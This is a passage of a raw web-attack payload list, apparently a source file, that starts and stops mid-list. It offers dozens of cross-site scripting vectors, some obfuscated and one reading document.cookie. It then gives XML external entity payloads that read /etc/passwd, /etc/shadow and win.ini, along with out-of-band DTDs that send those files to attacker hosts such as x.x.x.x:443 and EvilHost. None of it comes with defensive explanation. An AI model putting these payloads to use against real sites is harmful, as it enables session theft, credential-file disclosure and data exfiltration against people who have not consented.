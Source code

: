 ondragleave="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x ondragover="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x ondragstart="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x ondrop="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onscroll="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x oncopy="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x oncut="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onpaste="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onabort="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x oncanplay="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x oncanplaythrough="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x oncuechange="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x ondurationchange="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onemptied="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onended="alert(String.fromCharCode(88,83,83))">  &lt;Img src = x onerror = "javascript: window.onerror = alert; throw XSS"> &lt;Video> &lt;source onerror = "javascript: alert (XSS)"> &lt;Input value = "XSS" type = text> &lt;applet code="javascript:confirm(document.cookie);"> &lt;isindex x="javascript:" onmouseover="alert(XSS)"> ">&lt;/SCRIPT>”>’>&lt;SCRIPT>alert(String.fromCharCode(88,83,83))&lt;/SCRIPT> ">&lt;img src="x:x" onerror="alert(XSS)"> ">&lt;iframe src="javascript:alert(XSS)"> &lt;object data="javascript:alert(XSS)"> &lt;isindex type=image src=1 onerror=alert(XSS)> &lt;img src=x:alert(alt) onerror=eval(src) alt=0> &lt;img  src="x:gif" onerror="window['al\u0065rt'](0)">&lt;/img> &lt;iframe/src="data:text/html,&lt;svg onload=alert(1)>"> &lt;meta content="&amp;NewLine; 1 &amp;NewLine;; JAVASCRIPT&amp;colon; alert(1)" http-equiv="refresh"/> &lt;svg>&lt;script xlink:href=data&amp;colon;,window.open('https://www.google.com/')>&lt;/script &lt;meta http-equiv="refresh" content="0;url=javascript:confirm(1)"> &lt;iframe src=javascript&amp;colon;alert&amp;lpar;document&amp;period;location&amp;rpar;> &lt;form>&lt;a href="javascript:\u0061lert(1)">X &lt;/script>&lt;img/*%00/src="worksinchrome&amp;colon;prompt(1)"/%00*/onerror='eval(src)'> &lt;style>//*{x:expression(alert(/xss/))}//&lt;style>&lt;/style>  On Mouse Over? &lt;img src="/" =_=" title="onerror='prompt(1)'"> &lt;a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&amp;#97v&amp;#97script:&amp;#97lert(1)>ClickMe &lt;script x> alert(1) &lt;/script 1=2 &lt;form>&lt;button formaction=javascript&amp;colon;alert(1)>CLICKME &lt;input/onmouseover="javaSCRIPT&amp;colon;confirm&amp;lpar;1&amp;rpar;" &lt;iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">&lt;/iframe> &lt;OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83">&lt;PARAM NAME="DataURL" VALUE="javascript:alert(1)">&lt;/OBJECT>  &lt;A HREF="http://google:ha.ckers.org">XSS&lt;/A>  &lt;?xml version="1.0"?> &lt;!DOCTYPE foo [   &lt;!ELEMENT foo (#ANY)> &lt;!ENTITY xxe SYSTEM "file:///etc/passwd">]>&lt;foo>&amp;xxe;&lt;/foo>  &lt;?xml version="1.0"?> &lt;!DOCTYPE foo [ &lt;!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]> &lt;foo>&lt;result>&amp;ac;&lt;/result>&lt;/foo>    &lt;?xml version="1.0"?> &lt;!DOCTYPE foo [ &lt;!ELEMENT foo (#ANY)> &lt;!ENTITY % xxe SYSTEM "file:///etc/passwd"> &lt;!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]>&lt;foo>&amp;blind;&lt;/foo>  https://medium.com/@ismailtasdelen/xml-external-entity-xxe-injection-payload-list-937d33e5e116   Vanilla, used to verify outbound xxe or blind xxe --------------------------------------------------------------  &lt;?xml version="1.0" ?> &lt;!DOCTYPE r [ &lt;!ELEMENT r ANY > &lt;!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt"> ]> &lt;r>&amp;sp;&lt;/r>  --------------------------------------------------------------- OoB extraction ---------------------------------------------------------------  &lt;?xml version="1.0" ?> &lt;!DOCTYPE r [ &lt;!ELEMENT r ANY > &lt;!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml"> %sp; %param1; ]> &lt;r>&amp;exfil;&lt;/r>  ## External dtd: ##  &lt;!ENTITY % data SYSTEM "file:///c:/windows/win.ini"> &lt;!ENTITY % param1 "&lt;!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">  ---------------------------------------------------------------- OoB variation of above (seems to work better against .NET) ---------------------------------------------------------------- &lt;?xml version="1.0" ?> &lt;!DOCTYPE r [ &lt;!ELEMENT r ANY > &lt;!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml"> %sp; %param1; %exfil; ]>  ## External dtd: ##  &lt;!ENTITY % data SYSTEM "file:///c:/windows/win.ini"> &lt;!ENTITY % param1 "&lt;!ENTITY &amp;#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">  --------------------------------------------------------------- OoB extraction ---------------------------------------------------------------  &lt;?xml version="1.0"?> &lt;!DOCTYPE r [ &lt;!ENTITY % data3 SYSTEM "file:///etc/shadow"> &lt;!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd"> %sp; %param3; %exfil; ]>  ## External dtd: ## &lt;!ENTITY % param3 "&lt;!ENTITY &amp;#x25; exfil SYSTEM 'ftp://Evilhost:port/%data3;'>">  ----------------------------------------------------------------------- OoB extra ERROR -- Java ----------------------------------------------------------------------- &lt;?xml version="1.0"?> &lt;!DOCTYPE r [ &lt;!ENTITY % data3 SYSTEM "file:///etc/passwd"> &lt;!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd"> %sp; %param3; %exfil; ]> &lt;r>&lt;/r> ## External dtd: ##  &lt;!ENTITY % param1 '&lt;!ENTITY &amp;#x25; external SYSTEM "file:///nothere/%payload;">'> %param1; %external;   ----------------------------------------------------------------------- OoB extra nice -----------------------------------------------------------------------  &lt;?xml version="1.0" encoding="utf-8"?> &lt;!DOCTYPE root
